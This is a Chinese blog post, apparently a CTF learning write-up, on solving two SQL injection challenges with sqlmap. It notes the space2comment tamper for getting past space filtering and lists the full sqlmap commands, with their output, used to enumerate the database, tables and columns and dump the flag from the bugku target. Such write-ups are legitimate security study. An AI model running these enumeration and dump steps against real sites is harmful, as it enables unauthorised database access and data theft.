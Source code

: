 ```yaml
---
layout: post
title: "sqlmap-learning2"
date: 2019-05-20
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
---
```


* content
{:toc}


# 实验吧连接失败
> 实验吧的题目总是连接失败......


题目[实验吧-简单的sql注入之2](http://www.shiyanbar.com/ctf/1908)

这道题目之前手工注入过.


简单尝试后可以发现过滤空格和`'`.

因为有空格过滤, 所以使用sqlmap的时候得想办法绕过. 

参考这篇文章
[sqlmap的tamper详解](http://www.myh0st.cn/index.php/archives/881/)

可知在`tamper`中:
```
space2comment.py：
用 /**/ 替代空格，用于空格的绕过
```

知道这个就行了.

<br />

# bugku 成绩查询

## (1) 分析
源码:
```php
<h2 style='text-align:center;'>成绩查询</h2>
<form action='index.php' method='post'>
<input style='width:300px;height:40px;font-size:18px;' type='text' name='id' placeholder='1,2,3...'/><br><br><br><br><br>
<input style='width:100px;height:40px;' type='submit' value='Submit'/>
</form>
```


post提交, 需要sqlmap和burp一起用.

输入框随便输一个数, 如`1`. burp抓包, 保存到txt文件.

## (2) sqlmap
### 爆库
```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id --current-db
```

`-r`: 加载一个文件 
`-p`: 指定参数 (这里是`id`, 原解题网址输入45的时候用burp抓包, 会发现返回`id=45`)


报错:
```
[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

改进, 提高level:
```
sqlmap.py -r "C:\Users\18056\Desktop\44.tx"t -p id --current-db --level=2
```

返回:
```
skctf_flag
current database: 'skctf_flag'
```

### 爆表
```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id -D skctf_flag --tables --level=2
```

返回:
```
Database: skctf_flag
[2 tables]
+------+
| fl4g |
| sc   |
+------+
```

### 爆字段
flag应该在fl4g表中

```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id -D skctf_flag -T fl4g --columns --level=2
```

返回:
```
Database: skctf_flag
Table: fl4g
[1 column]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| skctf_flag | varchar(64) |
+------------+-------------+
```

### 列出字段信息
```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id -D skctf_flag -T fl4g -C skctf_flag --dump
```

 `-–dump`: 列出字段数据

> 过程非常的慢. 卡住的时候回车一下就会继续进行


返回:
```
Database: skctf_flag
Table: fl4g
[1 entry]
+---------------------------------+
| skctf_flag                      |
+---------------------------------+
| BUGKU{Sql_INJECT0N_4813drd8hz4} |
+---------------------------------+
```
